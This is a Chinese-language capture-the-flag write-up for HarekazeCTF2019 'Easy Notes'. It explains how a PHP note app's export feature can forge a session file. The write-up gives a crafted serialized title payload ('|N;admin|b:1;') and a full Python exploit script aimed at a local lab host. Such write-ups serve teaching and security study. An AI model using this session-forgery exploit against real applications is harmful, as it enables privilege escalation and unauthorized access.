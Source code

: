 # \[HarekazeCTF2019]Easy Notes

## \[HarekazeCTF2019]Easy Notes

## 考点

* PHP session反序列化
* PHP代码审计
* PHP session 伪造

## wp

给了源码，打开靶机，是一个笔记系统

![](../../.gitbook/assets/Harekaze2019\_notes\_1.png)

在登陆处进行了匹配，只允许输入 4 到 64 位规定字符，且不是前端验证

![](../../.gitbook/assets/Harekaze2019\_notes\_2.png)

登陆成功后，可以进行增删查和导出为 zip 或 tar 的功能，点击 `Get flag` 提示不是 admin

既然拿到源码就先看看全局配置 `config.php` ，就写了一行，定义临时文件目录



![](<../../.gitbook/assets/image (11) (1).png>)

还要看一下初始化文件`init.php`，定义`session`存储位置

![](<../../.gitbook/assets/image (22) (1) (1) (1) (1) (1).png>)

进入 `page/flag.php` 看一下给出 flag 的条件，要满足 `is_admin()` 函数

![](../../.gitbook/assets/Harekaze2019\_notes\_3.png)

跟进 `is_admin()` 函数，没有发现什么可以利用的地方

![](../../.gitbook/assets/Harekaze2019\_notes\_4.png)

看到有个导出功能，它会将添加的 note 导出为 zip，这个文件存放的位置在 `TEMP_DIR` ，和 `session` 信息保存在同一个位置，那么是不是可以考虑伪造 session

![](<../../.gitbook/assets/image (5) (1) (1).png>)

session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`

看到 `$filename` 处可以满足所有的条件

![](../../.gitbook/assets/Harekaze2019\_notes\_5.png)

构造 `user` 为 `sess_` ，`type` 为 `.` ，经过处理之后，`$path` 就是 `TEMP_DIR/sess_0123456789abcdef` 这就伪造了一个 session 文件

然后向这个文件写入 note 的 `title`

![](../../.gitbook/assets/Harekaze2019\_notes\_6.png)

在最后，它会将构造的 `$filename` 返回，这样就知道了伪造的 session 文件，就可以拿到构造出的 admin 的 session 数据

![](../../.gitbook/assets/Harekaze2019\_notes\_7.png)

最后构造 `session` 触发反序列化使 `is_admin` 返回 `ture` 。

可以看到在导出时，会将 `titl`e 写入伪造的 `session` 文件中

那么就可以在 `title` 处构造序列化字符串，而 php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;

这里 `title` 就构造为 `|N;admin|b:1;` 这样就会满足了 `is_admin`的条件

梳理一下思路

第一步，以 sess\_ 登陆

第二步，添加标题为 `|N;admin|b:1; 的 note`

第三步，访问 export.php?type=. 伪造 session

第四步，获取伪造的 session 进行 get flag

exp

```python
import re
import requests
URL = 'http://192.168.233.136:9000/'

while True:
	# login as sess_
	sess = requests.Session()
	sess.post(URL + 'login.php', data={
		'user': 'sess_'
	})

	# make a crafted note
	sess.post(URL + 'add.php', data={
		'title': '|N;admin|b:1;',
		'body': 'hello'
	})

	# make a fake session
	r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
	print(r)
	
	sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]
	print(sessid)
	
	# get the flag
	r = requests.get(URL + '?page=flag', cookies={
		'PHPSESSID': sessid
	}).content.decode('utf-8')
	flag = re.findall(r'flag\{.+\}', r)

	if len(flag) > 0:
		print(flag[0])
		break
```

## 小结

1. &#x20;php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;
2. session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`
